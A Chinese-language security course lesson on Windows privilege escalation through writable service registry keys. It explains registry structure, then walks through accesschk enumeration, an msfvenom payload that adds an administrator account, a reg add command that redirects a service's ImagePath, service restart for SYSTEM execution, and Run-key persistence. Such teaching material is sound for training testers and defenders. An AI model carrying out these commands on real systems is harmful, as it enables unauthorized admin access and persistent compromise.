





# 网络安全系统教程：P88：75. 不安全注册表权限 🔧

在本节课中，我们将学习关于Windows注册表的知识，并探讨如何利用不安全的注册表权限进行权限提升。我们将从注册表的基础概念讲起，逐步深入到如何发现和利用这类漏洞。

## 概述 📖

注册表是Windows操作系统的核心数据库，存储了系统、软件和硬件的关键配置信息。如果攻击者能够修改某些服务的注册表项，就可能实现权限提升。本节将详细介绍这一过程。

---

## 什么是注册表？ 🗂️

上一节我们介绍了不安全的服务权限，本节中我们来看看不安全的注册表权限。首先，我们需要理解什么是注册表。

注册表是Windows系统中的一个核心数据库。你可以将它理解为一个存储了系统所有关键信息的数据库。这些信息包括：
*   已安装的软件信息。
*   计算机硬件设备的状态和配置。
*   系统和应用程序的管理配置。
*   网络设置等。

所有这类信息都记录在注册表中。

### 注册表的结构

要查看和编辑注册表，可以按下 `Win + R` 键，输入 `regedit` 并回车，打开注册表编辑器。

注册表的结构主要包含以下几个部分：
*   **根键**：注册表顶层的分支。主要有五个，例如 `HKEY_LOCAL_MACHINE`。
*   **子键**：位于根键或其它子键下的键，类似于文件系统中的文件夹。
*   **键值项**：存储在键下的具体数据，由**名称**、**类型**和**数据**三部分组成。

以下是注册表主要根键的对应关系：
```
HKEY_CLASSES_ROOT (HKCR)
HKEY_CURRENT_USER (HKCU)
HKEY_LOCAL_MACHINE (HKLM)
HKEY_USERS (HKU)
HKEY_CURRENT_CONFIG (HKCC)
```

---

## 服务与注册表的关系 🔗





在Windows系统中，所有服务的相关信息都存储在注册表的特定位置。

与我们之前利用的服务漏洞相关的信息，存储在以下路径：
```
HKLM\SYSTEM\CurrentControlSet\Services\
```
（注：`HKLM` 是 `HKEY_LOCAL_MACHINE` 的缩写）



在这个路径下，每个系统服务都有一个对应的子键。例如，一个名为`VulnerableService`的服务，其配置就存储在 `HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService` 下。



在这些服务的子键中，有一个关键的键值项叫做 **`ImagePath`**。这个键值项的**数据**定义了该服务启动时所执行的可执行文件路径。

之前我们通过 `sc config` 命令修改服务属性，本质上就是修改了注册表中对应服务的 `ImagePath` 值。

---

## 不安全的注册表权限漏洞原理 ⚠️

理解了服务信息存储在注册表后，漏洞原理就清晰了。

如果**普通用户**对某个服务的注册表项（特别是其 `ImagePath` 键值项）拥有**写入权限**，那么该用户就可以直接修改 `ImagePath` 的路径，将其指向一个恶意的可执行程序。

当该服务重启时（可能是系统重启或手动重启），系统会以**SYSTEM权限**执行我们指定的恶意程序，从而实现权限提升。

这与“不安全的服务权限”漏洞的区别在于：
*   **不安全的服务权限**：我们修改的是服务本身的属性（通过`sc`命令）。
*   **不安全的注册表权限**：我们直接修改的是存储服务配置的注册表键值。

---

## 利用步骤与方法 🛠️

以下是发现和利用不安全注册表权限的完整步骤。

### 第一步：查找存在漏洞的服务

我们需要检查 `HKLM\SYSTEM\CurrentControlSet\Services\` 下各个子键的权限，寻找普通用户拥有写入权限的服务。

常用的工具是 **AccessChk**（来自SysInternals套件）或 **PowerUp.ps1** 脚本。

使用AccessChk的命令示例如下（在目标机器上运行）：
```cmd
accesschk.exe /accepteula -quvw "Authenticated Users" "HKLM\SYSTEM\CurrentControlSet\Services\"
```
这个命令会列出所有“Authenticated Users”组用户（即普通登录用户）对其拥有写入权限的服务注册表项。

### 第二步：准备恶意负载

与之前一样，我们需要生成一个恶意可执行文件。例如，使用MSF生成一个添加管理员用户的程序：
```bash
msfvenom -p windows/adduser USER=hacker PASS=Hacker123! -f exe -o adduser.exe
```
将此 `adduser.exe` 上传到目标机器的可写目录，例如 `C:\Temp\`。

### 第三步：修改注册表键值

找到有写入权限的服务（例如 `ACCSYS`）后，使用 `reg` 命令修改其 `ImagePath`。

以下是修改注册表的命令格式：
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Services\ACCSYS" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\adduser.exe" /f
```
*   `/v ImagePath`：指定要修改的键值项**名称**。
*   `/t REG_EXPAND_SZ`：指定键值项的**类型**（`ImagePath`通常是这种类型）。
*   `/d “C:\Temp\adduser.exe”`：指定新的**数据**，即我们恶意程序的路径。
*   `/f`：强制覆盖，不提示确认。

### 第四步：触发执行

修改完成后，需要触发服务重启以执行我们的程序。如果服务正在运行，可以尝试重启它：
```cmd
sc stop ACCSYS
sc start ACCSYS
```
或者等待系统重启。服务重启后，`adduser.exe` 将以SYSTEM权限运行，成功添加我们指定的用户。

**注意**：如果生成的是反弹Shell负载，务必注意设置进程的自动清理或迁移，避免服务因进程退出而报错。

---

## 扩展知识：注册表与权限维持 🕵️

除了利用服务，注册表本身也常被用于权限维持。一个典型的例子是 **“启动项”**。

Windows有许多注册表位置用于定义开机自动启动的程序，例如：
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
如果攻击者获得了相应权限，可以将恶意程序路径写入这些键值项。这样，每次用户登录或系统启动时，恶意程序都会自动运行，从而实现持久化控制。

---

## 总结 📝



本节课中我们一起学习了不安全的注册表权限漏洞。

1.  **核心概念**：注册表是Windows的核心数据库，服务配置存储其中。`ImagePath` 键值决定了服务启动时运行的程序。
2.  **漏洞原理**：若普通用户对服务的注册表项有**写入权限**，则可修改 `ImagePath`，指向恶意程序。
3.  **利用流程**：
    *   使用工具（如`accesschk`）查找有写入权限的服务注册表项。
    *   准备恶意负载并上传。
    *   使用 `reg add` 命令修改目标服务的 `ImagePath`。
    *   重启服务或等待系统重启以触发执行，获得SYSTEM权限。
4.  **关联知识**：注册表中的自启动项（如 `…\Run`）是权限维持的常用手段。

理解并掌握注册表的结构与权限机制，对于深入进行Windows系统安全测试和防御至关重要。